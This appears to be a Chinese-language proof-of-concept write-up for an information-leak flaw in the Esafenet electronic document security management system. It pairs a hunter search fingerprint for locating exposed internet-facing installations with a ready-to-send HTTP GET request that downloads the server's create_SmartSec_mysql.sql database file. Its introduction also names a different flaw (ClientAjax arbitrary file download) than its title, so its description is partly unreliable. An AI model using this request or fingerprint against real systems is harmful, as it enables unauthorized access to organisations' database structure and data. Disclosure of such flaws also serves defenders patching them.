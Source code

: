 # 亿赛通 电子文档安全管理系统 create_SmartSec_mysql信息泄露

# 一、漏洞简介
亿赛通电子文档安全管理系统是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通 电子文档安全管理系统 ClientAjax 任意文件下载。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/1GlZaQKLE2cGUVGj/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-425256.png)

# 四、漏洞复现
```plain
GET /CDGServer3/SQL/MYSQL/create_SmartSec_mysql.sql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![1710086299125-e7611d63-bf75-4545-9198-b1f8360a83ba.png](./img/1GlZaQKLE2cGUVGj/1710086299125-e7611d63-bf75-4545-9198-b1f8360a83ba-948062.png)



> 更新: 2024-04-20 22:01:30  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fforzmhq7r1n8vnz>